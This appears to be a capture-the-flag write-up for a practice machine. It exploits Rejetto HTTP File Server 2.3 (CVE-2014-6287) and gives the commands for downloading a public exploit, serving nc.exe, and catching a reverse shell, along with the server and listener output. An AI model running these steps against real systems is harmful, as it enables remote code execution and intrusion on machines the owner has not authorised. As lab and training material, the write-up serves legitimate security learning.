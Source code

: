 ### 1 - Scan the machine with nmap. What is the other port running a web server on?

We can see Port 8080 is hosting HttpFileServer, httpd 2.3.

### 2 - Take a look at the other web server. What file server is running?

Rejetto HTTP File Server.

### 3 - What is the CVE number to exploit this file server?

Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)

CVE 2014-6287.

### 4 - Use Metasploit to get an initial shell. What is the user flag?

Tried Metasploit - Didn't work, have a feeling its because of the payload.

Without Metasploit:

1. Copy nc.exe from /usr/share/... to steel-mountain

    cp /usr/share/windows-binaries/nc.exe .

2. Download the Exploit

    wget https://raw.githubusercontent.com/offensive-security/exploitdb/master/exploits/windows/remote/39161.py

3. Change the IP Address and Port Number

    ip_addr = "10.8.82.167" #local IP address
	local_port = "4444" # Local Port number

4. Terminal 1 - Start nc in ../steel-mountain

5. Terminal 2 - Start Python HTTPSimpleServer, Port 80 in ../steel-mountain

    sudo python -m SimpleHTTPServer 80

6. Terminal 3 - Run Script against [Box IP Address] 8080

You have to run the script 2-3 times. First time it GETs the nc.exe file, and 2nd time it executes it, creating a reverse shell.

HTTPSimpleServer Output:

    10.10.15.167 - - [26/Jul/2020 03:05:51] "GET /nc.exe HTTP/1.1" 200 -
    10.10.15.167 - - [26/Jul/2020 03:05:51] "GET /nc.exe HTTP/1.1" 200 -
    10.10.15.167 - - [26/Jul/2020 03:05:51] "GET /nc.exe HTTP/1.1" 200 -
    10.10.15.167 - - [26/Jul/2020 03:05:51] "GET /nc.exe HTTP/1.1" 200 -

nc output:

    listening on [any] 4444 ...
    connect to [10.8.82.167] from (UNKNOWN) [10.10.15.167] 49178
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.
